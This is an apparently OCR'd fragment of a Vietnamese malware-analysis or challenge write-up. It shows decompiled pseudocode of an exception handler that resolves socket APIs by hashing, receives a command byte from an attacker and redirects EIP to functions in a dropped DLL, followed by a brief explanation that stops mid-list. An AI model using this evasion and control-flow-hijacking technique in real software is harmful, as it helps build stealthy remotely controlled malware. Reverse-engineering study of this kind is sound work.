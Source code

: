 ```
  char v9; // [esp+13h] [ebp-1h] BYREF

  if ( resolve_APIhashing_ws2_32()[100] == -1 || !*(_DWORD *)fileDLLdrop )
  {
    ExceptionInfo->ContextRecord->Eip += 5;
    return -1;
  }
  ExceptionCode = ExceptionInfo->ExceptionRecord->ExceptionCode;
  if ( ExceptionCode == 0xC0000005 )            // exception code
  {
    v2 = (_DWORD *)dword_8A0394;
    qmemcpy(dword_8A0398, ExceptionInfo->ContextRecord, 716u);
    if ( dataPic <= (int)(*v2 / (unsigned int)lendataEnc) )
    {
      recv = resolve_APIhashing_ws2_32();
      if ( !((int (__stdcall *)(_DWORD, char *, int, _DWORD))recv[122])(recv[100], &v9, 1, 0) )
      {
        recv[100] = 0;
        *((_BYTE *)recv + 496) = 0;
      }
      switch ( v9 )                             // nhận data option tu attacker
      {                                         // cac case nay se goi ham cua file DLLdrop
        case 0:
          ExceptionInfo->ContextRecord->Eip = (DWORD)gen0;// gán địa chỉ gen0 cho EIP để thực thi tiếp tục tại địa chỉ đó
          return -1;
        case 1:
          ExceptionInfo->ContextRecord->Eip = (DWORD)gen1;
          return -1;
        case 2:
          ExceptionInfo->ContextRecord->Eip = (DWORD)gen2;
          return -1;
        case 3:
          ExceptionInfo->ContextRecord->Eip = (DWORD)gen3;
          return -1;
      }
    }
    return -1;
  }
  if ( ExceptionCode != 0x80000003 )
    return -1;
  v5 = dword_8A0398;
  if ( !*((_DWORD *)dword_8A0398 + 46) )
    return -1;
  qmemcpy(ExceptionInfo->ContextRecord, dword_8A0398, sizeof(CONTEXT));
  ContextRecord = ExceptionInfo->ContextRecord;
  Eip = ContextRecord->Eip;
  if ( lendataEnc )
    v8 = Eip - 2;
  else
    v8 = Eip + 5;
  ContextRecord->Eip = v8;
  memset(v5, 0, 716u);
  return -1;
}
```
## Solution
Trong Windows ta có thể chúng ta có thể bắt Exception và trỏ EIP tới một địa chỉ hàm mà ta mong muốn và thực thi tiếp logic code tại đó
Các EIP được gán cho địa chỉ của gen0-gen3 (các hàm này bạn có thể xem ở file drop)
Solution:
- Target sẽ nhận 1 key từ attacker